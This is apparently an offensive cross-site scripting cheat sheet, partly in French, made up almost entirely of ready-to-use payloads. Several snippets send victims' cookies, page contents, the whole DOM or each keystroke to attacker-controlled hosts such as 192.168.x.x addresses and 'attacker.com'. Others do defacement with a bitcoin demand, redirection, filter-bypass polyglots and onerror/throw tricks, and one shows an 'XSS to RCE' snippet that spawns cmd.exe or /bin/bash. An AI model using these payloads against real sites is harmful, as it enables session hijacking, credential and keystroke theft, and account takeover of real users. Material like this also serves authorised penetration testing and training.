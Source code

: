 
- https://github.com/payloadbox/xss-payload-list
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md

Send Cookie details to us: Session-Hijacking

```js
new Image().src = "http://192.168.75.137/xss.php?cookie="+ escape(document.cookie);

fetch("http://192.168.45.128/xss.php?cookie=" + btoa(document.cookie));
```

```js
<script>
fetch('http://target.com/endpoint.php')
.then(response => response.text())
.then(data => fetch('http://attacker.com/?data' + btoa(data)))
</script>
```

```html
<script class="xss">$('.xss').parents().eq(1).find('a').eq(1).click();$('[data-action=retweet]').click();alert('XSS in X')</script>
```

Rediriger l'utilisateur vers un autre site

```js
window.location.replace("https://otherwebsite.com");
```

Modifier la page actuel

```js
document.body.innerHTML = "<center><br><br><br><h1>Oh noez, your are haxed! Send bitcoins quick!</h1></center>";
```

Enregistreur de frappe | Key Logger

```js
document.onkeypress = function(c){ fetch("http://192.168.100.129/?k="+ String.fromCharCode(c.which)); }
document.onkeypress = function(e){ fetch('http://192.168.75.137/log?key=' + btoa(e.key) );}
```

HTML2Canvas

```js
fetch("http://192.168.100.129/?dom="+btoa(document.documentElement.outerHTML));
```

Polyglottes

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('ErrorDipeua') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Dipeua')//>\x3e
```

XSS => RCE

```js
var sys = require('sys');
var exec = require('child_process').exec;
exec("C:\\Windows\\System32\\cmd.exe", function(error, stdout, stderr){ sys.puts(stdout) });
exec("/bin/bash", function(error, stdout, stderr){ sys.puts(stdout) });
```


```html
<iframe src="javascript:alert(document.domain)">

<img src=x onerror="alert(document.domain)">

"><img src=x onerror=prompt(document.domain);>

#"><img src=/ onerror=alert(document.cookie)>

<svg/onload="alert(document.domain)">

xss">< ! --><svg/onload=alert(document.domain)>

<noscript><p title="</noscript><img src=x onerro=alert(1)>">
"><svg><animatetransform onbegin=alert(1)>

https://target.com/?'accesskey='x'onclick='alert(1)
```

---

Reflected XSS into HTML context with all tags blocked except custom ones

```js
<dipeau tabindex="1" onfocus="alert(document.cookie)">#1
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
```

Cette injection crée une balise personnalisée avec l'ID `x`, qui contient un gestionnaire d'événements `onfocus` déclenchant la fonction `alert`. 

Le hachage à la fin de l'URL se concentre sur cet élément dès le chargement de la page, ce qui déclenche l'appel de la charge utile `alert`.


```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a></svg>
```


```js
onerror=alert;throw 1
<script>{onerror=alert}throw 1337</script>

<script>throw onerror=alert,'some string',123,'haha'</script>
<script>{onerror=eval}throw'=alert\x281337\x29'</script>
<script>{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'}</script>

<script>{onerror=prompt}throw{lineNumber:1,columnNumber:1,fileName:'second argument',message:'first argument'}</script>

<script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>

<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```